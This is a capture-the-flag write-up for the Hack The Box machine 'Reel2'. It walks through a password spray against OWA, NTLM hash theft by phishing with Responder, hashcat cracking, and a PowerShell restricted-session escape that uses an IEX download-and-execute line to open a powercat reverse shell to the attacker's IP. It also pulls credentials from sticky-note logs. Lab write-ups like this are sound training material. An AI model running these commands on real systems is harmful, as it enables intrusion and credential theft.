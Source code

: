 Title: Reel2 writeup hackTheBox - DarkRider88
Date: 18/03/2021
Description: In this box we are trying to enumerate a service collect some users and make a wordlist and then launcing our phishing attack against all the users to get the valid NTLM hash through memory leak.
Image: /assets/images/Reel2.png
Level: Hard

## Enumeration

port 443 is accesible
```
/public
```

on port 8080
```
sven - summer is too hot this year 2020
username: svensson

```

Valid username
```
S.svensson
which have summer in its password
```
try to login to https://ip/owa/auth

```
S.svensson: Summer2020
```

After login we see there are 10-12 emails in the address book.
Let's go to fishing.
select all and send a email..

phishing will be done with NTLM hash stealing with responder
https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes

Download Responder and send your ip address to the users.

**bug: the user is nowhere: use k.svensson to send the email with your ip**

crack the hash with hashcat
```bash
hashcat -m 5600 hash wordlist

```

```creds
k.svensson: kittycat1
```

**Evil-winrm will not work**

Run powershell in kali and enter following commands

```bash
sudo apt-get install powershell
sudo apt-get install gss-ntlmssp

pwsh
$session = New-PSSession -Computer 10.10.10.210  -Authentication Negotiate -Credential k.svensson 

Enter-PSSession $session

```


### Escaping powershell

> Get-Command ( it list all the available commands )
> so we are going to define a function whose name will be on of the available commands.


```bash
function Get-Help { whoami }   # defining the function

Get-Help 	# calling it 
```

Getting reverse shell

```bash
function Get-Help { powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.107:8000/powercat.ps1');powercat -c 10.10.14.107 -p 1234 -e cmd" }
```






## Root

in the \Users\Documents there is a sticky notes link it means there is some sticky notes on the desktop.

checking the 
C:\Users\k.svensson\AppData\Roaming\stickynotes\000003.log



```
jea_test_account: Ab!Q@vcg^%@#1
```

to login we need to convert this password into secure string and then pass to New-pssesion
https://duffney.io/addcredentialstopowershellfunctions/

```
$password = ConvertTo-SecureString "Ab!Q@vcg^%@#1" -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential ("jea_test_account", $password)

Enter-PSSession -Computer 10.10.10.210 -Credential $Cred -ConfigurationName jea_test_account -Authentication Negotiate
```
### just enough administration
Now in the documents there were two files .. reading those 
there is function of check-file which is available to jea_test_account after login ( Get-Commands)

In file jea_test_account.psrc
```bash
FunctionDefinitions = @{
    'Name' = 'Check-File'
    'ScriptBlock' = {param($Path,$ComputerName=$env:COMPUTERNAME) [bool]$Check=$Path -like "D:\*" -or $Path -like "C:\ProgramData\*" ; if($check) {get-content $Path}} }
```

Thas it Rooted
